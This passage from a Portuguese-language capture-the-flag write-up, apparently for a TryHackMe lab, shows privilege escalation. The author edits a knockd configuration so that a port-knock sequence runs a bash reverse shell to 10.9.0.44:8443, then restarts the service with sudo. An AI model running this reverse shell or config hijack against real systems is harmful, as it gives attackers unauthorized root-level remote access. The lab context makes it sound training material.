 ```
        tcpflags    = syn
```
Novamente observando o arquivo, percebemos que logo após ele receber a sequência correta de requisições, ele roda um comando no `iptables`, iso significa que talves possamos editar esta linha para inserir um payload de conexão reversa.
Após a edição do arquivo, ficou desta forma : 

```
dev1@incognito:~$ cat /etc/knockd.conf 
[options]
        logfile = /var/log/knockd.log

[openSSH]
        sequence    = 5020,6120,7340
        seq_timeout = 15
        command     = /bin/bash -c 'bash -i >& /dev/tcp/10.9.0.44/8443 0>&1'
        tcpflags    = syn

[closeSSH]
        sequence    = 9000,8000,7000
        seq_timeout = 15
        command     = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j REJECT
        tcpflags    = syn
```
Após a edição, utilizei a permissão do usuário dev1 para reiniciar o knockd e recarregar as configurações.

```
dev1@incognito:~$ sudo /etc/init.d/knockd restart
[ ok ] Restarting knockd (via systemctl): knockd.service.
```

Depois disso, tudo que precisei fazer foi setar um `netcat` na porta 8443 e fazer o knocking novamente.

<img src="/thm/thm-gamebuzz-11.png">
